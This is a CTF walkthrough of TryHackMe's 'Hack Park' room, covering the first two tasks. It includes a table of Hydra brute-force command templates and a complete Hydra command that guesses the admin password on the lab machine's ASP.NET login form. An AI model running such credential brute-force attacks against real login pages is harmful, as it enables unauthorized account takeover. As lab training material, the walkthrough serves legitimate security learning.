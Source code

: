```yaml
---
title: Hack Park 
date: 2022-06-20 18:32:00 -0500
categories: [Walkthrough, Tryhackme, CTF]
tags: [hydra, windows]
---
```


Bruteforce a websites login with Hydra, identify and use a public exploit then escalate your privileges on this Windows machine!

[https://tryhackme.com/room/hackpark](https://tryhackme.com/room/hackpark)

* * *

## Task 1 - Deploy the vulnerable Windows machine 

This room will cover brute-forcing an accounts credentials, handling public exploits, using the Metasploit framework and privilege escalation on Windows.

##   Answer the questions below

**Deploy the machine and access its web server.**

**Whats the name of the clown displayed on the homepage?**

- Pennywise (reverse image search)

* * * 

## Task 2 - Using Hydra to brute-force a login

| Command | Description |
|---------|-------------|
| ``hydra -P <wordlist> -v <ip> <protocol>`` | Brute force against a protocol of your choice |
| ``hydra -v -V -u -L <username list> -P <password list> -t 1 -u <ip> <protocol>`` | You can use Hydra to bruteforce usernames as well as passwords. It will loop through every combination in your lists. (-vV = verbose mode, showing login attempts) |
| ``hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>`` | Attack a Windows Remote Desktop with a password list. |
| ``hydra -l <username> -P .<password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`` | Craft a more specific request for Hydra to brute force. |

##   Answer the questions below

**What request type is the Windows website login form using?**

- POST

**Guess a username, choose a password wordlist and gain credentials to a user account!**

- Craft hydra 

```
hydra -t 16 -l admin -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt 10.10.85.208 http-post-form "/Account/login.aspx:__VIEWSTATE=DwoboO4H6Lg0TVWgRpjNYIfKsqKTMsi6KZ%2FrLpvJsIRyXNLRSf3AR8CTQMQTYcdrLBGAP%2FYDhPf8rKSl4hOkXldcWG7BXJ9ELa5Rq8rH0osikXzZMXuVA17TmDJ6KPlI3BFrN31Tw8troT51IiMPW9VhjPvhT96NGMusiERE9NDv1Hnfqv19MQnu2jmwQCefYRSh1T5mSmXl%2FDzykSgz6WRGKNFo8666FszWs1GgT%2FRDfl8PEOgpJIlYI5WQ3BpiM76RCqXETcYlPzjFDuHgR0OWP1QrrPCM8vf6YJozaosZ%2BWjlbQiCbqxkcXixtvfHE0kfoVNVr66Z%2FtNXfRDr67%2Fzz77%2FM6ywjkRiBN1%2Fdg5x7WeK&__EVENTVALIDATION=O%2FQ9GaTABmLsQKQUlAi8Z0FcLkfY6na0%2Fx4VNKOEmfdxE89nHewkLLaJzx96uT1fyeQFoIQYNtTiYaByuOlt682ZQ9ukMSDtwo7Mi9HYOdgj2zrPzayN2T9TYjl%2F8nWx2K1JetpiiOI1e0vO2FhO9OTKLgeOocGzPM1WciR5gWrO34MZ&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```
